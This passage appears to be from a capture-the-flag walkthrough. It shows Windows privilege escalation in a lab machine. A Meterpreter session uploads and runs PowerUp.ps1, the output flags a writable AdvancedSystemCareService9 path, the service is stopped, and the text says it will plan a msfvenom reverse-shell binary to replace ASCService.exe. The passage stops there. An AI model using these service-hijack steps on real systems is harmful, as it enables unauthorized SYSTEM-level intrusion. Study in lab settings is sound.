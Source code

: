 ```
    meterpreter > upload /root/PowerUp.ps1
    [*] uploading  : /root/PowerUp.ps1 -> PowerUp.ps1
    [*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
    [*] uploaded   : /root/PowerUp.ps1 -> PowerUp.ps1
    meterpreter > load powershell
    Loading extension powershell...Success.
    meterpreter > pwd
    C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
    meterpreter > ls -lrt
    Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
    ====================================================================================

    Mode              Size    Type  Last modified              Name
    ----              ----    ----  -------------              ----
    100666/rw-rw-rw-  562841  fil   2020-07-02 00:13:19 +0000  PowerUp.ps1
    40777/rwxrwxrwx   0       dir   2020-07-01 23:35:21 +0000  %TEMP%
    100666/rw-rw-rw-  174     fil   2019-09-27 11:07:07 +0000  desktop.ini
    100777/rwxrwxrwx  760320  fil   2019-09-27 09:24:35 +0000  hfs.exe

    meterpreter > powershell_shell
    PS > . .\PowerUp.ps1
    PS > Invoke-AllChecks
```

- From the output, we can see *AdvancedSystemCareService9* can be a restart-able service and also the path is writable. Using this mis-configuration on the machine, we can push our own code to this service.  

```
    ServiceName    : AdvancedSystemCareService9
    Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
    ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
    StartName      : LocalSystem
    AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
    CanRestart     : True

    ServiceName    : AdvancedSystemCareService9
    Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
    ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
    StartName      : LocalSystem
    AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
    CanRestart     : True

```  

- Get into the shell and stop the AdvancedSystemCareService9 service.   

  `sc stop AdvancedSystemCareService9`  

- Using `msfvenom` lets create a malicious file same as service file name - ASCService.exe, which contains reverse shell.   
